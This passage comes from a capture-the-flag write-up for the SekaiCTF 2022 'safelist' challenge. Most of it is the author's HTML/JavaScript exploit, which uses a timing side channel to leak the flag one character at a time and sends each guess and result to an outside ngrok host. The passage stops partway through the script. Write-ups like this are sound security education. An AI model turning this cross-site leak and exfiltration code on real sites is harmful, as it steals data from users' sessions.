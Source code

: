 ![req2](/img/sekaictf2022-safelist-and-connection/p5.png)

As long as you do a modified binary search, you can quickly find which character it is. My final script is as follows (you can get one character per run):

https://gist.github.com/aszx87410/155f8110e667bae3d10a36862870ba45

``` html
<!DOCTYPE html>
<html>
<!--
  The basic idea is to create a post with a lot of images which send request to "/" to block server-side nodejs main thread.
  If images are loading, the request to "/" is slower, otherwise faster.
  By using a well-crafted height, we can let note with "A" load image but note with "Z" not load.
  We can use fetch to measure the request time.
-->
<body>
  <button onclick="run()">start</button>
  <form id=f action="http://localhost:1234/create" method="POST" target="_blank">
    <input id=inp name="text" value="">
  </form>

  <form id=f2 action="http://localhost:1234/remove" method="POST" target="_blank">
    <input id=inp2 name="index" value="">
  </form>
  <script>
    let flag = 'SEKAI{'
    const TARGET = 'https://safelist.ctf.sekai.team'
    f.action = TARGET + '/create'
    f2.action = TARGET + '/remove'

    const sleep = ms => new Promise(r => setTimeout(r, ms))
    const send = data => fetch('http://server.ngrok.io?d='+data)
    const charset = 'abcdefghijklmnopqrstuvwxyz'.split('')

    // start exploit
    let count = 0
    setTimeout(async () => {
      let L = 0
      let R = charset.length - 1
      while( (R-L)>3 ) {
        let M = Math.floor((L + R) / 2)
        let c = charset[M]
        send('try_' + flag + c)
        const found = await testChar(flag + c)
        if (found) {
          L = M
        } else {
          R = M - 1
        }
      }

      // fallback to linear since I am not familiar with binary search lol
      for(let i=R; i>=L; i--) {
        let c = charset[i]
        send('try_' + flag + c)
        const found = await testChar(flag + c)
        if (found) {
          send('found: '+ flag+c)
          flag += c
          break
        }
      }
```